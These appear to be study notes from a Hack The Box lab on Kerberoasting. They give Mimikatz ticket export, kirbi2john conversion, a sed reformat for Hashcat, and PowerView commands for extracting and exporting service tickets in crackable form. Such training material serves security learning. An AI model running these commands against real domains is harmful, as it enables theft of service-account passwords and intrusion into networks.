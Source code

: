 ```powershell
           * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
```
        
If we don’t specify the **base64 /out:true** command, Mimikatz will extract the tickets and write the to **.kirbi** files. 
        
 Next, you prepare the base blob for cracking `echo "<base64 blob>" |  tr -d \\n` then place the above into a file and convert it back to a **.kirbi** file using the base64 utility.`cat encoded_file | base64 -d > sqldev.kirbi`
        
 Extract the kerberos ticket using [kirbi2john.py](http://kirbi2john.py) this will create a file called **crack_file,** which then must be modified to be able to use Hashcat against the hash `python2.7 kirbi2john.py sqldev.kirbi`
        
Modifying the crack file for hashcat `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` now you can run the ticket through hashcat and get a clear password.
        
#### Skipped Version
        
So if we decide to skip the base64 output with mimkatz and type **mimikatz # kerberos::list /export,** the **.kirbi** file will be written to disk, in this case, you can download the file and run **[kirbi2john.py](http://kirbi2john.py)** against them directly, skipping the base64 decoding step.
        
#### AUTOMATE VERSION
        
Using [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) to extract the TGS ticket and convert them to Hashcat format.
        
**Extracting TGS Ticket**
        
```powershell
        PS C:\htb> Import-Module .\PowerView.ps1
        PS C:\htb> Get-DomainUser * -spn | select samaccountname
        PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
        
**Target Specific User**
        
`Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`
        
**Exporting All Tickets to a CSV file and viewing the Content**
        
`Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`
        
`cat .\ilfreight_tgs.csv`
        
## REBEUS
            
[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
            
A tool capable of performing kerberoasting faster and easier by providing a variety of options to interact with kerberos
            
[https://www.hackingarticles.in/a-detailed-guide-on-rubeus/](https://www.hackingarticles.in/a-detailed-guide-on-rubeus/)
            